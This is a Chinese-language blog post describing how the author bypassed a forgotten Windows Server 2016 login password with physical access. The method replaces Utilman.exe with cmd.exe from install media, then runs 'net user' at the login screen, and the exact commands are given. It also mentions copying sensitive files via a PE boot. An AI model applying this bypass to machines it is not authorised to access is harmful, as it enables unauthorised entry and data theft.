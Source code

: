 ```yaml
---
layout: post
title: 物理接触绕过Windows Server 2016登录密码
---
```


## 有些标题党了，未开启BitLocker加密的Windows系统应该都可以使用此方法，修改用户的登录密码

前些日子装了个Windows Server 2016系统，好久没用，居然忘了登录密码。。。系统登录界面连重启选项都没有，只有网络控制和轻松使用，
连续**6**次密码错误，系统会假装第六次输入的密码正确，作出正在登录的假象，你欣喜地盯着正在登录提示下面的那个圈圈转啊转，转了好久，猛地弹出**密码错误**提示，
对于这种消耗手动暴力破解者时间以及耐心的做法，表示真心佩服。

### 原理

言归正传，该方法的基础是，目标Windows系统未开启BitLocker加密，使得拥有物理接触的我们可以替换系统 `C:\Windows\System32\Utilman.exe` 为 `C:\Windows\System32\cmd.exe` 
当然，名字保持不变，这样Windows系统每次调用轻松使用(Utilman.exe)，实际运行的二进制程序为cmd.exe。有了命令行窗口，可做的事情就很多了，何况是管理员级别的命令行窗口。

在支持NTFS(Windows系统盘的文件系统，XP当我没说)文件系统挂载的环境下，替换文件的方法有：
* 开机计入恢复模式，一般可以获得一个cmd窗口
* 进PE，Windows PE, Linux PE(Ubuntu这种安装盘也算)，甚至macOS PE，替换，注意备份真实的Utiman.exe文件，当然，前提是USB口可用
* 如果物理接触等级很高，可以拆下硬盘，挂在到其他电脑上，当然，我们的需求一般是重置密码，如果是为了读系统盘里的敏感文件，进PE，复制即可，无需这么麻烦

### 操作

本人使用Windows Server 2016的USB安装盘(电脑没法进入恢复模式，已做好重装系统的打算。。。)
1. 开机按F10进入启动选择界面，选择USB安装盘
2. 启动USB安装盘，在安装系统界面，选择修复计算机，修复模式选择命令行
3. 命令行下默认安装盘盘符为X，默认目录是 `X:\sources\` ，

进入Diskpart查看计算机上的硬盘
```
diskpart
```
查看计算机连接的硬盘(物理硬盘)，通常需要重置密码的系统，其系统盘状态是在线，并且已经分配了盘符
```
list disk
```
查看目标系统盘盘符，一般是C，没有盘符的也可以手动分配，总之要挂载目标系统盘
```
list volume
```
备份Utilman.exe
```
copy C:\Windows\System32\Utilman.exe C:\
```
用cmd.exe替换Utilman.exe，询问是否覆盖该文件，Yes
```
copy C:\Windows\System32\cmd.exe C:\Windows\System32\Utilman.exe
```
重启，进入系统登录界面，点击轻松使用，弹出了我们需要的命令行窗口

![命令行窗口](/images/cmd.png "命令行窗口")

重置用户密码
```
net user [用户名] [新密码]
```
使用新密码登录，成功！

## 参考资料
* https://www.lifewire.com/step-by-step-guide-to-resetting-a-windows-7-password-2626309
* http://www.digitalcitizen.life/command-prompt-advanced-disk-management-commands